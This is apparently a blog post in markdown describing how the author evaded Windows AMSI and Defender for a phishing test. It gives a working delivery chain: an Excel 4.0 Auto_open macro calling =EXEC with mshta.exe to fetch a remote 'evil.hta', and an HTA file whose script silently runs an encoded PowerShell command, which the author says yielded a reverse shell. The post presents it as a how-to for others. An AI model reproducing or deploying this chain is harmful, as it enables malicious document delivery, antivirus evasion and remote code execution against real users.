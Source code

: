 ```yaml
---
title: "Phishing AMSI Bypass"
date: 2020-02-25T13:07:25-05:00
draft: false
toc: false
images:
tags:
  - ASMI 
---
```

## How to bypass AMSI (The Simplest Way)

I was looking to run my own phishing campaigns on my current organization and was testing office document payloads.
I tried the old fashioned VBA in the macro running the shell function as well as some others, and defender caught most if not all of them.
Using this tool [Macro-Pack](https://github.com/sevagas/macro_pack) works sometimes but often, it would get flagged or the powershell command would not properly run.
I noticed that most of the issues i was running into was this AMSI popup ![asmi popup](https://images.app.goo.gl/FxF1Hj3V9mk2wfyP7)

So i began researching AMSI as i never heard of it. The following resources break down AMSI and bypass options.

* [Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [byte storm](https://medium.com/@byte_St0rm/adventures-in-the-wonderful-world-of-amsi-25d235eb749c)
* [security soup](https://security-soup.net/flawedammyy-rat-excel-4-0-macros/)
* [OutFlank2](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

The first two explain what AMSI is and the last two go into the easier ways to bypass it. Security-Soup broke down how some actors bypassed it using excel 4.0 macros.
Aka really old macros that still work. I used the following link to get more familiar with these macros.[Excel Off The Grid](https://exceloffthegrid.com/using-excel-4-macro-functions/).
I pretty much right clicked my sheet. And clicked Excel 4.0 macro. This creates a new sheet called macro1. If you rename the first cell Auto_open it will run the sheet cell by cell.
You can run pretty much anything with the following function.
```
=EXEC("cmd.exe")
```
The issue i was running into at this point was not AMSI it was defender flagging certain lolbins like certil for example.
So i decide to look for lolbins that could potentially bypass defender since AMSI was taken care of. I came across a post here on [IronHackers](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)
That pretty much goes through alot of lolbins but what i noticed was they mentioned that.
```
mshta.exe http://192.168.43.103/Launcher.hta
```
Doesnt get flagged.



So i found an HTA payload which contained some jscript and tried injecting that into my exec function. The macro1 sheet now looks like this

```
=EXEC("mshta.exe http://someip/evil.hta")
```
The HTA file looks like this 
```
<html>
<head>
<HTA:APPLICATION id="hwHTA"
applicationName="hyperHTA"
border="thin"
borderStyle="normal"
caption="yes"
icon="http://www.hyperwrite.com/features/favicon.ico"
maximizeButton="yes"
minimizeButton="yes"
showInTaskbar="no"
windowState="normal"
innerBorder="yes"
navigable="yes"
scroll="auto"
scrollFlat="yes"
singleInstance="yes" 
sysMenu="yes"
contextMenu="yes"
selection="yes" 
version="1.0" />

<script>
a=new ActiveXObject("WScript.Shell");
a.run("powershell -encodedCommand safdjngnrwgnwfn Blah blah blah",0,false);window.close();
</script>

<title>Simple HTML Page</title>

</head>

<body>

<h1>Dummy Page</h1>
<hr>
<p>This is a simple, common or garden variety, normal HTML page. Oh, but saved
with a .HTA extension, and with an &lt;HTA&gt; application block included at the
top of the HTML code. </p>
<p>And to make it interesting, here is a link to the <a href="http://www.aodc.com.au/" target="_top">AODC
Web site</a>.</p>
<p>And why not retrieve the version number out of the HTA:Application properties
using <a href="#" onClick="JavaScript:alert('Version of this HTA is ' + hwHTA.version)">JavaScript</a>.</p>
<p>&nbsp;</p>

</body>

</html>
```

Im not very savy to Jscript or VB so i found this online entered my own powershell encoded command into it.
And to my surprise it did not trigger defender and my reverse shell came in soon after. So with just using an old school method found with soome googling and leveraging mshta.exe you too can bypass defender as well as AMSI to get code execution.